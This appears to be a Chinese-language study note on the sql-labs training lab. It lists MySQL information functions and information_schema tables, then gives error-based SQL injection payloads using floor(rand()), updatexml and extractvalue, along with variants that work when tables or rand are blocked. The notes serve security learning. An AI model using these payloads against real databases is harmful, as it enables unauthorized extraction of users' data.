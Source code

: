 # Sql-labs记录

记录了一些sql-labs的闯关历史

- 随记
version()——MySQL 版本
user()——数据库用户名
database()——数据库名
@@datadir——数据库路径
@@version_compile_os——操作系统版本
information_schema 自带数据库
information_schema.schemata 数据库
information_schema.tables 数据表
information_schema.columns 数据列
floor函数返回小于等于该值的最大整数
RAND()函数调用可以在0和1之间产生一个随机数

- 报错注入：

```
rand()
```
![](https://pic.superbed.cn/item/5dcbf1df8e0e2e3ee9eb629e.jpg)
```
floor()
```
![](https://pic.superbed.cn/item/5dcbf31c8e0e2e3ee9eb8939.jpg)

```
and (select 1 from (select count(*),concat((payload),floor (rand(0)*2))x from information_schema.tables group by x)a)

and (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2))) -- +
```
```
1' and updatexml(1,user(),1) --+
只有在payload返回的不是xml格式才会生效,其最长输出32位
```
```
extractvalue(1,concat('~',user(),'~'))
其最长输出32位
```

简化
```
select count(*) from information_schema.tables group by concat(version(), floor(rand(0)*2))
```
关键表被禁用
```
select count(*) from (select 1 union select null union
select !1)a group by concat(version(),floor(rand(0)*2))
```
rand 禁用
```
select min(@a:=1) from information_schema.tables group by concat(password,@a:=(@a+1)%2)
```
